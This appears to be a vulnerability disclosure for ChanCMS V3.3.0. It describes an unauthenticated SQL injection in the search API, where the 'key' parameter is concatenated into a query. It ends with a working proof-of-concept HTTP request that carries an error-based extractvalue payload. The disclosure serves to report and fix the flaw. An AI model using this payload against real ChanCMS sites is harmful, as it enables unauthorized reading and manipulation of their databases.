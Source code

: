 # Vendor

yanyutao0402

# Product

ChanCMS

# version

 V3.3.0

# Download 

https://gitee.com/yanyutao0402/ChanCMS

# Vulnerability

SQL injection

# Description

In the search page, users can perform SQL injection attacks without logging in and manipulate databases.

# Analysis

The `search` method in `app/modules/api/service/Api.js` does not perform any verification when passing in the key parameters, and directly splicing the SQL statement.

<img width="960" height="217" alt="image" src="https://github.com/user-attachments/assets/47ace82e-eff6-41ab-b020-c8387c05d1c2" />

We reproduce this SQL injection vulnerability

<img width="929" height="725" alt="image" src="https://github.com/user-attachments/assets/16cb132a-c5f7-4972-8425-0c8f0c7127cc" />

# POC
```
GET /api/v1/search?key=%27%20and%20extractvalue(1,concat(0x7e,(select%20version()),0x7e))--%20a HTTP/1.1
Host: localhost:3000
Accept: application/json, text/plain, */*


```
